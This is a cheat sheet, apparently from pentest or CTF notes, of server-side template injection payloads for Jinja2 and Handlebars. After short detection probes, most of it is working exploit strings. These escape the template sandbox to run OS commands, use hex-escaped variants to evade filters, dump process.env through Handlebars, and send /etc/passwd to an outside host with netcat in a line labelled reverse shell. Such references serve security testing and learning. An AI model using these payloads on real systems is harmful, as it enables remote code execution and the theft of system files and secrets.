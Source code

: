 # Template Injection
https://portswigger.net/web-security/server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
## Detect
To detect template injection start with following
```
${7*7}
{{7*7}}
{{7*'7'}}
```
https://portswigger.net/web-security/images/template-decision-tree.png

## Exploitation
### Jinja2
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```python
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

# Reverse shell with Jinja2 injection
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
```
### handlebars
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#handlebars
```
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
        {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
